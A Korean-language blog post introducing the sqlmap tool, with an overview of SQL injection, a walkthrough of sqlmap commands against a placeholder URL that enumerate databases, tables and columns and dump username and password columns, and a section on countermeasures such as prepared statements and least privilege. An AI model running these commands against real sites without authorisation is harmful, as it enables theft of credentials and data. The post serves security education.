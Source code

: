 ```yaml
---
layout: single
title:  "SQLi-sqlmap이란? "
categories: SQLi
tag: [SQLi, sqlmap, 이론]
toc: true
author_profile: false

---
```


**[공지사항]** [본 블로그에 포함된 모든 정보는 교육 목적으로만 제공됩니다.](https://weoooo.github.io/notice/notice/)
{: .notice--danger}

**[데이터베이스 설계 및 SQL쿼리]** [데이터베이스와 SQL쿼리를 모르신다면 클릭!](https://weoooo.github.io/database/sql/Database-with-SQL-query/)
{: .notice--success}

## 📖개요

SQLMap은 데이터베이스 관리 시스템(DBMS)의 SQL 인젝션 취약점을 자동으로 탐지하고, 이를 악용하여 다양한 공격을 수행할 수 있는 오픈 소스 도구입니다.

SQLMap은 강력한 기능과 유연한 옵션을 제공하여 보안 전문가와 해커 모두에게 인기 있는 도구입니다.

![이미지](https://pbs.twimg.com/media/FjYBRxTXwAIKioc?format=jpg&name=small)

## 💉SQL 인젝션 개요

SQL 인젝션은 웹 애플리케이션에서 사용자 입력이 제대로 검증되지 않아 공격자가 임의의 SQL 코드를 주입할 수 있는 취약점입니다. 

이를 통해 공격자는 데이터베이스의 데이터를 무단으로 조회, 수정, 삭제할 수 있습니다.

## 🪄SQLMap의 주요 기능

SQLMap은 다음과 같은 주요 기능을 제공합니다

### 자동 탐지: 다양한 SQL 인젝션 유형을 자동으로 탐지합니다.
{: .notice--danger}

{: .notice--danger}

### 데이터베이스 정보 수집: 데이터베이스, 테이블, 컬럼 등의 정보를 조회합니다.

{: .notice--danger}

### 데이터 추출: 특정 테이블이나 컬럼의 데이터를 추출합니다.

{: .notice--danger}

### 파일 시스템 접근: 데이터베이스 서버의 파일 시스템에 접근할 수 있습니다.

{: .notice--danger}

### 명령어 실행: 데이터베이스 서버에서 시스템 명령어를 실행할 수 있습니다.



## ✏️SQLMap 사용 방법

SQLMap은 명령줄 도구로, 다양한 옵션을 제공하여 공격을 구성할 수 있습니다. 다음은 기본적인 사용 예시입니다:

```
`sqlmap -u "http://example.com/vulnerable_page.php?id=1" --dbs`
```

이 명령어는 `http://example.com/vulnerable_page.php?id=1` 페이지에 SQL 인젝션을 시도하고, 데이터베이스 목록을 조회합니다.

### 주요 옵션 설명

`-u` : 대상 URL을 지정합니다.

`--dbs` : 데이터베이스 목록을 나열합니다.

`--tables` : 특정 데이터베이스의 테이블 목록을 나열합니다.

`--columns` : 특정 테이블의 컬럼 목록을 나열합니다.

`--dump` : 특정 테이블의 데이터를 추출합니다.

## ☠️SQLMap 시연 예제

### 단계 1: 데이터베이스 탐지

```
`sqlmap -u "http://example.com/vulnerable_page.php?id=1" --dbs`
```

이 명령어는 SQLMap이 대상 URL에서 SQL 인젝션 취약점을 탐지하고, 데이터베이스 목록을 나열합니다.

### 단계 2: 테이블 탐지

```
`sqlmap -u "http://example.com/vulnerable_page.php?id=1" -D example_db --tables`
```

이 명령어는 `example_db` 데이터베이스 내의 테이블 목록을 나열합니다.

### 단계 3: 컬럼 탐지

```
`sqlmap -u "http://example.com/vulnerable_page.php?id=1" -D example_db -T users --columns`
```

이 명령어는 `example_db` 데이터베이스의 `users` 테이블 내의 컬럼 목록을 나열합니다.

### 단계 4: 데이터 추출

```
`sqlmap -u "http://example.com/vulnerable_page.php?id=1" -D example_db -T users -C username,password --dump`
```

이 명령어는 `example_db` 데이터베이스의 `users` 테이블에서 `username`과 `password` 컬럼의 데이터를 추출합니다.

## 🛡️SQL 인젝션 대응 방안

SQL 인젝션을 예방하기 위해 다음과 같은 방안을 적용할 수 있습니다.



### **입력 검증**

사용자 입력을 철저히 검증하여 악의적인 SQL 코드를 차단합니다.
{: .notice--danger}

### **준비된 문(Prepared Statements)**

SQL 쿼리를 실행할 때, 매개변수를 별도로 처리하여 SQL 인젝션을 방지합니다.
{: .notice--danger}

### **ORM 사용**

객체 관계 매핑(Object-Relational Mapping) 도구를 사용하여 직접적인 SQL 쿼리 작성을 최소화합니다.
{: .notice--danger}

### **최신 보안 패치 적용**

데이터베이스 관리 시스템과 웹 애플리케이션의 최신 보안 패치를 적용하여 알려진 취약점을 차단합니다.
{: .notice--danger}

### **최소 권한 원칙**

데이터베이스 사용자 계정에 최소한의 권한만 부여하여, SQL 인젝션이 성공하더라도 피해를 최소화합니다.
{: .notice--danger}

## 🛠️결론

SQLMap은 SQL 인젝션 취약점을 자동으로 탐지하고 악용할 수 있는 강력한 도구입니다. 

하지만, SQL 인젝션 공격의 위험성을 줄이기 위해서는 적절한 보안 조치를 적용하는 것이 필수적입니다.
 
입력 검증, 준비된 문 사용, 최신 보안 패치 적용 등 다양한 대응 방안을 통해 웹 애플리케이션의 보안을 강화할 수 있습니다.

## 📖Reference

[sqlmap로고 출처: x.com](https://x.com/ReconOne_bk/status/1600468125488906240)
